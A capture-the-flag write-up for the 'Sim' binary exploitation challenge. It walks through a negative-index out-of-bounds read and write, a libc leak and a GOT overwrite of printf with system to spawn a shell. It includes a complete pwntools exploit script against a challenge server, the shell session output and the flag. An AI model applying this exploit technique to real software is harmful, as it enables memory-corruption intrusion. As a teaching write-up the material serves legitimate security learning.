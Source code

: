 # Sim

**Description**:  
Welcome back `Agent 007`! As you can see, the simulator is running an arc right now. But the arc seems to be in a meltdown. Can you break its security with its own computational power and save it?

**Author:  [Ath3n1x](https://twitter.com/Ath3n1x)**

**Solution**: 
This seems to be the last challenge where Agent 007 will be back. 
You know the drill by now, `Checksec`:
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8046000)
    RUNPATH:  b'.'
```

`Partial RELRO` opens up the possibility of GOT overwrite. 
For a change, this is also a 32 bit binary contrary to the 64 bit binaries that we encountered in the challenges thus far. So the addresses are going to be 4 bytes. 
`No PIE`, which means that the addess of the GOT table remains the same.

On running the binary, we can see that we have 3 options: ``add`, `show`, `break_armour``. All manipulates the reactor which is a global array declared as: `char *reactor[3][4]`. 


Now looking at the source code:

```C
void add(){

	int idx;
	puts("Enter the index :");
	scanf("%d",&idx);
	puts("Enter the data :");
	read(0,reactor[idx],0x4);
		
}
```

`idx` is signed. Integer overflow is a possibility which allows negative indexing. Also, we can allocate/write anything at `reactor+idx`. This is particularly dangerous because we can modify the contents of the reactor array at any position specified by idx. If negative values are permitted, we could potentially overwrite critical areas of memory, such as the Global Offset Table (GOT), since both reactor and the GOT are stored in the BSS segment. By calculating the correct offset, we could overwrite a GOT entry with the address of the `libc system` function. This would allow us to hijack the program's execution flow and ultimately gain a shell.


```C
void show(){
	int idx;
	puts("Enter the index :");
	scanf("%d",&idx);
	if(reactor[idx])
		printf("%s\n",reactor[idx]);
	else
		puts("Not allocated!");
}
```

There is no check in `idx`. This can be exploited to print the data stored at `reactor+(-idx)` location. 

We can use the above to get more consistent `libc` leaks (addresses get randomized on each run due to ASLR). Then we can calculate the `system` address from the leaks. At last, we can overwrite GOT table entry of `printf` with the address (system) that we calculated. 


```C
	else if(choice == 3)
		{
		    printf(break_);
		}
```
*[In main]*
When the choice is 3, `printf(break_);` gets executed. So what if `break_` is `/bin/sh`? Viola! There pops the shell.

Note: Alternatively, you can also make use of the format string vulnerability in the `printf(break_)` to get the required leaks.

```python
from pwn import *
#p = process("./sim")

p = remote('13.234.11.113',32651)

def add(idx,data):
    p.sendlineafter("MELTDOWN)\n","1")
    p.sendlineafter("index :\n",str(idx))
    p.sendlineafter("data :\n",data)

def show(idx):
    p.sendlineafter("MELTDOWN)\n","2")
    
    p.sendlineafter("Enter the index :\n",str(idx))
def leave():
    p.sendlineafter("MELTDOWN)\n","3")

p.sendline("/bin/sh\x00")
show("268435454")

print("leaks:")
leak = u32(p.recvline()[:4].strip().ljust(4,b'\x00'))
print(hex(leak))
base = leak - 0x1d55c0
system = base + 0x3ce10
print("System address:", hex(system))
add("268435449", p32(system))

#gdb.attach(p)

leave()
p.interactive()
```

On running the script:
```
[*] Switching to interactive mode
Choose your ACTION:
1. add
2. show
3. break armour
$ ls
Dockerfile  flag.txt  ld-2.27.so  libc-2.27.so    libc.so.6  sim    sim.py    ynetd
$ cat flag.txt
shaktiCTF{Th3_4rc_15_s4v3d_4nd_h4ppy_pwn1ng}
$ exit
```
 
Flag: `shaktictf{Th3_4rc_15_s4v3d_4nd_h4ppy_pwn1ng}`              
